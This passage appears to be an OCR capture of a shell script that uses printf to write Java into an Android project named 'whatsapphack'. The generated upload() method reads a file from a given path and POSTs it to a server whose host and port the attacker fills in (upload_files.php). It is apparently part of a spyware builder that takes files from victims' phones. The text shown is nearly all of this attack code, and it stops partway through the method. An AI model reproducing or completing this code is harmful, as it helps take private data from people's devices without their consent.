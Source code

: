 printf "}\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf " public void upload(String selectedPath) throws Exception {\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "        HttpURLConnection connection = null;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "        DataOutputStream outputStream = null;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "        DataInputStream inputStream = null;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "        String pathToOurFile = selectedPath;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "        String urlServer = \"http://%s:%s/upload_files.php\";\n" $host $port >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "        String lineEnd = \"%sr%sn\";\n" $lazy $lazy >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "        String twoHyphens = \"--\";\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "        String boundary = \"*****\";\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "        int bytesRead, bytesAvailable, bufferSize;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "        byte[] buffer;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "        int maxBufferSize = 1 * 1024 * 1024;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "            FileInputStream fileInputStream = new FileInputStream(new File(\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "                    pathToOurFile));\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "            URL url = new URL(urlServer);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "            connection = (HttpURLConnection) url.openConnection();\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "            connection.setDoInput(true);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "            connection.setDoOutput(true);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "            connection.setUseCaches(false);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "            connection.setRequestMethod(\"POST\");\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "            connection.setRequestProperty(\"Connection\", \"Keep-Alive\");\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "            connection.setRequestProperty(\"Content-Type\",\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "                    \"multipart/form-data;boundary=\" + boundary);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

